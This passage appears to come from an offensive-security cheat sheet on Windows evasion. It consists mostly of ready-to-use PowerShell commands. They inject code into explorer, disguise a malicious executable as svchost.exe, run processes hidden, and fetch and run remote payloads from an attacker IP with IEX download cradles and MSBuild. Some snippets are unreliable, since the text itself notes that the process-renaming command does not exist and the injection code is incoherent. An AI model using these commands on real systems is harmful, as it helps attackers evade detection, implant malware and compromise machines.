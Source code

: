 ```powershell
$pid = (Get-Process explorer).Id
$code = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(4096)
[System.Runtime.InteropServices.Marshal]::Copy([System.Text.Encoding]::ASCII.GetBytes("<shellcode>"), 0, $code, 4096)
$handle = (Get-Process -Id $pid).Handle
Invoke-ReflectivePEInjection -PEBytes $code -ProcessID $pid
```

**Renaming a Malicious Process**&#x20;

* Rename a malicious executable to a legitimate name:

```powershell
Rename-Item -Path "C:\Temp\malicious.exe" -NewName "svchost.exe"
```

**Using Background Execution**&#x20;

* Run a process in the background (hidden window):

```powershell
Start-Process -FilePath "C:\Windows\System32\notepad.exe" -WindowStyle Hidden
```

**Disguising Process Names in Task Manager**&#x20;

*   Rename a malicious process in-memory (requires advanced techniques or tools like Process Hacker):

    ```powershell
    Invoke-Expression "Rename-Process -ProcessId 1234 -NewName 'explorer.exe'"
    ```

    * Note: PowerShell alone does not support renaming processes in memory without additional tools or scripts.\_

## Fileless Execution and Living off the Land&#x20;

Fileless techniques reduce the likelihood of detection by not writing malicious files to disk.

**Execute a Fileless PowerShell Payload**&#x20;

```powershell
powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attack_ip>/payload.ps1')"
```

**Use MSBuild for Fileless Execution**&#x20;

```powershell
msbuild.exe C:\path\to\malicious_project.xml
```

**Run a Malicious Script from Memory**&#x20;

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/malicious.ps1')
```

## Modifying User and Permission Settings&#x20;
